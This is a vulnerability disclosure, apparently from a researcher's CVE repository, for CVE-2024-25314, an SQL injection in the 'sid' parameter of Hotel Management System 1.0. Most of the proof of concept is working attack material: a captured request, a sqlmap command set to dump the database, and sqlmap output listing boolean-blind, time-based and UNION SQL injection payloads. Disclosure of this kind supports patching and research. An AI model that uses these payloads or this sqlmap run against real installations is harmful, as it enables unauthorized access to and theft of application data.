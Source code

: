 # CVE-2024-25314 - Hotel Managment System - SQL Injection-2
+ *Exploit Title:* Hotel Managment System - SQL Injection-2
+ *Date:* 2024-02-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://code-projects.org/hotel-management-system-in-php-with-source-code/
+ *Software Link:* https://download.code-projects.org/details/cd8fc4cb-c6b6-48f7-9cc3-27044a0a26a3
+ *Version:* 1.0
+ *Tested on:* Kali Linux + PHP 8.2.12, Apache 2.4.58
+ *CVE:* CVE-2024-25314

## Description:
Hotel Managment System 1.0, allows SQL Injection via the 'sid' parameter in Hotel/admin/show.php?sid=2. Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: http://localhost/Hotel/admin/home.php
+ Click show button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /Hotel/admin/show.php?sid=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'sid' parameter to dump the database.
```
python sqlmap.py -r r.txt -p sid --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: sid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: sid=2' AND 6172=6172-- rihG

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sid=2' AND (SELECT 4349 FROM (SELECT(SLEEP(5)))VTTj)-- qEzP

    Type: UNION query
    Title: Generic UNION query (NULL) - 16 columns
    Payload: sid=2' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176767a71,0x7175487a6d65646c43574b416f76734e716679706277507867684d697a43576b677264734b57705a,0x716b6a6a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[18:55:35] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:55:35] [INFO] fetching current database
current database: 'hotel'
```
+ current database : `hotel`
  
![Ekran görüntüsü 2024-02-02 025707](https://github.com/tubakvgc/CVEs/assets/74067343/9a29d0bb-a78d-422b-82f8-3adda424ea0b)




  
